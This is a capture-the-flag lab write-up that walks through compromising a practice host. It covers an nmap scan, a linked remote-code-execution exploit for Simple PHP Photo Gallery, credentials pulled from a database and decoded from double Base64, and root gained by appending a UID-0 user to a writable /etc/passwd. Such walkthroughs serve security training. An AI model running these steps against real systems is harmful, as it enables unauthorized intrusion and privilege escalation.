 `nmap -A -T4 -p- 192.168.148.58`

```
21/tcp    open  ftp         vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.244
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp    open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:79:67:12:c7:ec:13:3a:96:bd:d3:b4:7c:f3:95:15 (RSA)
|   256 a8:a3:a7:88:cf:37:27:b5:4d:45:13:79:db:d2:ba:cb (ECDSA)
|_  256 f2:07:13:19:1f:29:de:19:48:7c:db:45:99:f9:cd:3e (ED25519)
80/tcp    open  http        Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Simple PHP Photo Gallery
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp   open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp  open  mysql       MySQL (unauthorized)
33060/tcp open  mysqlx      MySQL X protocol listener
```

# HTTP 
Simple PHP Photo Gallery v0.8 is listed. Doing a quick search for that gets us a [RCE](https://github.com/beauknowstech/SimplePHPGal-RCE.py) which we can get a shell.

![](Images/Pasted%20image%2020250503142601.png)

We can get the local flag yet so we will do some enumeration.

![](Images/Pasted%20image%2020250503143143.png)

We have found db credentials. Lets login with those

![](Images/Pasted%20image%2020250503143741.png)

In the users table is all of the usernames and passwords

![](Images/Pasted%20image%2020250503143831.png)

```
josh:VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0=  
michael:U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==  
serena:VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==
```

These appear to be Base64, but they are double encoded.

```
josh:MobilizeHissSeedtime747
michael:HockSydneyCertify123
serena:OverallCrestLean000
```

Testing the credentials michael's login works.

![](Images/Pasted%20image%2020250503144347.png)

Rerun Linpeas with the new credentials. Found within the linpeas output is /etc/passwd is writeable. Lets create a new root user.

```
new-user:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash

echo "$(cat new_user_entry.txt)" >> /etc/passwd

cat /etc/passwd | grep new-user

su new-user pass123
```

![](Images/Pasted%20image%2020250503145150.png)